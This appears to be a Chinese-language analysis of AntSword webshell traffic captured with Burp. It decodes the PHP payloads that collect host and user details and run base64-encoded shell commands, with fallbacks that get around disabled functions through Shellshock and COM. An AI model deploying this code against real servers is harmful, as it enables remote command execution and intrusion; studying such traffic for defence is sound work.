





利用burp进行抓包分析，设置代理为burp抓包端口





拿到shell之后，进行测试连接，查看数据



```
shell=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%2215616b8d%22%3Becho%20%40asenc(%24output)%3Becho%20%225cd08fdbd%22%3B%7Dob_start()%3Btry%7B%24D%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(%24D%3D%3D%22%22)%24D%3Ddirname(%24_SERVER%5B%22PATH_TRANSLATED%22%5D)%3B%24R%3D%22%7B%24D%7D%09%22%3Bif(substr(%24D%2C0%2C1)!%3D%22%2F%22)%7Bforeach(range(%22C%22%2C%22Z%22)as%20%24L)if(is_dir(%22%7B%24L%7D%3A%22))%24R.%3D%22%7B%24L%7D%3A%22%3B%7Delse%7B%24R.%3D%22%2F%22%3B%7D%24R.%3D%22%09%22%3B%24u%3D(function_exists(%22posix_getegid%22))%3F%40posix_getpwuid(%40posix_geteuid())%3A%22%22%3B%24s%3D(%24u)%3F%24u%5B%22name%22%5D%3A%40get_current_user()%3B%24R.%3Dphp_uname()%3B%24R.%3D%22%09%7B%24s%7D%22%3Becho%20%24R%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B
```

整体的代码解码后如下：

```php
<?php

@ini_set("display_errors", "0"); // 设置不显示报错信息
@set_time_limit(0); // 不设置脚本运行超时时间
function asenc($out)
{
    return $out;
}

;
function asoutput()
{
    $output = ob_get_contents(); // 获取浏览器中输出缓冲区的内容
    ob_end_clean(); // // 清空并关闭输出缓冲
    echo "15616b8d";
    echo @asenc($output);
    echo "5cd08fdbd";
}

ob_start(); // 启动输出缓冲，以下内容不会立刻发送到浏览器中，会在上面函数中获取到并输出
try {
    /*
    $_SERVER["SCRIPT_FILENAME"] 获取当前执行脚本的绝对路径（包括脚本文件名）
    dirname(...) 函数返回路径中的目录部分
    */
    $D = dirname($_SERVER["SCRIPT_FILENAME"]); // 获取当前执行脚本的目录路径
    if ($D == "") $D = dirname($_SERVER["PATH_TRANSLATED"]); // $_SERVER["PATH_TRANSLATED"] 用于存储当前执行脚本的文件系统完整路径，只有在 CGI 模式下才可用
    $R = "{$D}	"; // 将$D的值赋给$R并在后面加上一个制表符\t，{} 被用来定义字符串插值。在字符串中使用 {} 可以将变量的值嵌入到字符串中
    // 判断$D是否以 / 开头，意思就是判断当前是否为linux系统，如果是，就在字符串结尾拼接上一个 / ，否则，遍历C到Z的字符，用 is_dir 函数判断是否存在对应盘符的目录，如果有就把对应盘符拼接到 $R 后面。
    if (substr($D, 0, 1) != "/") {
        // is_dir 函数用于检查指定路径是否为一个目录。
        foreach (range("C", "Z") as $L) if (is_dir("{$L}:")) $R .= "{$L}:";
    } else {
        $R .= "/";
    }
    $R .= "	"; // 再加一个制表符
    // 使用了条件三元运算符，首先检查是否存在 POSIX 扩展中的 posix_getegid 函数，如果存在，则调用 posix_geteuid 函数获取当前有效用户的用户 ID，接着使用 posix_getpwuid 函数获取与该用户 ID 相关联的用户信息，否则将 $u 设置为空字符串
    $u = (function_exists("posix_getegid")) ? @posix_getpwuid(@posix_geteuid()) : "";
    // 使用了条件三元运算符，检查变量 $u 是否非空。如果 $u 非空，则将上面的代码获取到的用户名赋值给变量 $s；如果 $u 为空，则调用 get_current_user 函数获取当前执行脚本的用户名赋值给 $s
    $s = ($u) ? $u["name"] : @get_current_user();
    $R .= php_uname(); // php_uname 用于获取系统信息，并将其拼接到 $R 中
    $R .= "	{$s}"; // 将 $s 拼接到 $R 中，以制表符分割
    echo $R;;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput(); // 调用函数，获取并输出输出缓存中的内容
die();
```

响应包如下，蚁剑会将数据先输出到缓存区，再由$output变量接收，然后在开头和结尾输出一些随机字符串，用于定位$output的输出位置



使用蚁剑执行命令，可以看到发送的代码如下，解密后进行分析


里面有五个函数，命令执行的一些内容会被base64编码之后通过POST传参传进来，参数名也是随机的

```php
<?php
/**
POST 传参，除了蚁剑密码外
gae8d20cdbed96=Y2QgIi92YXIvd3d3L2h0bWwvdXBsb2FkIjtwd2Q7ZWNobyBbU107cHdkO2VjaG8gW0Vd
&h851286c3495b5=L2Jpbi9zaA%3D%3D
&x543949fd4ab73=
**/
@ini_set("display_errors", "0");
@set_time_limit(0);
function asenc($out)
{
    return $out;
}

;
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "a93c29ce6d3";
    echo @asenc($output);
    echo "20b85bf7b2";
}

ob_start();
try {
    $p = base64_decode($_POST["h851286c3495b5"]);
    $s = base64_decode($_POST["gae8d20cdbed96"]);
    $envstr = @base64_decode($_POST["x543949fd4ab73"]);
    $d = dirname($_SERVER["SCRIPT_FILENAME"]);
    $c = substr($d, 0, 1) == "/" ? "-c \"{$s}\"" : "/c \"{$s}\"";
    if (substr($d, 0, 1) == "/") {
        @putenv("PATH=" . getenv("PATH") . ":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");
    } else {
        @putenv("PATH=" . getenv("PATH") . ";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");
    }
    if (!empty($envstr)) {
        $envarr = explode("|||asline|||", $envstr);
        foreach ($envarr as $v) {
            if (!empty($v)) {
                @putenv(str_replace("|||askey|||", "=", $v));
            }
        }
    }
    $r = "{$p} {$c}";
    function fe($f)
    {
        $d = explode(",", @ini_get("disable_functions"));
        if (empty($d)) {
            $d = array();
        } else {
            $d = array_map('trim', array_map('strtolower', $d));
        }
        return (function_exists($f) && is_callable($f) && !in_array($f, $d));
    }

    ;
    function runshellshock($d, $c)
    {
        if (substr($d, 0, 1) == "/" && fe('putenv') && (fe('error_log') || fe('mail'))) {
            if (strstr(readlink("/bin/sh"), "bash") != FALSE) {
                $tmp = tempnam(sys_get_temp_dir(), 'as');
                putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");
                if (fe('error_log')) {
                    error_log("a", 1);
                } else {
                    mail("a@127.0.0.1", "", "", "-bv");
                }
            } else {
                return False;
            }
            $output = @file_get_contents($tmp);
            @unlink($tmp);
            if ($output != "") {
                print($output);
                return True;
            }
        }
        return False;
    }

    ;
    function runcmd($c)
    {
        $ret = 0;
        $d = dirname($_SERVER["SCRIPT_FILENAME"]);
        if (fe('system')) {
            @system($c, $ret);
        } elseif (fe('passthru')) {
            @passthru($c, $ret);
        } elseif (fe('shell_exec')) {
            print(@shell_exec($c));
        } elseif (fe('exec')) {
            @exec($c, $o, $ret);
            print(join("
", $o));
        } elseif (fe('popen')) {
            $fp = @popen($c, 'r');
            while (!@feof($fp)) {
                print(@fgets($fp, 2048));
            }
            @pclose($fp);
        } elseif (fe('proc_open')) {
            $p = @proc_open($c, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);
            while (!@feof($io[1])) {
                print(@fgets($io[1], 2048));
            }
            while (!@feof($io[2])) {
                print(@fgets($io[2], 2048));
            }
            @fclose($io[1]);
            @fclose($io[2]);
            @proc_close($p);
        } elseif (fe('antsystem')) {
            @antsystem($c);
        } elseif (runshellshock($d, $c)) {
            return $ret;
        } elseif (substr($d, 0, 1) != "/" && @class_exists("COM")) {
            $w = new COM('WScript.shell');
            $e = $w->exec($c);
            $so = $e->StdOut();
            $ret .= $so->ReadAll();
            $se = $e->StdErr();
            $ret .= $se->ReadAll();
            print($ret);
        } else {
            $ret = 127;
        }
        return $ret;
    }

    ;
    $ret = @runcmd($r . " 2>&1");
    print ($ret != 0) ? "ret={$ret}" : "";;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();

```

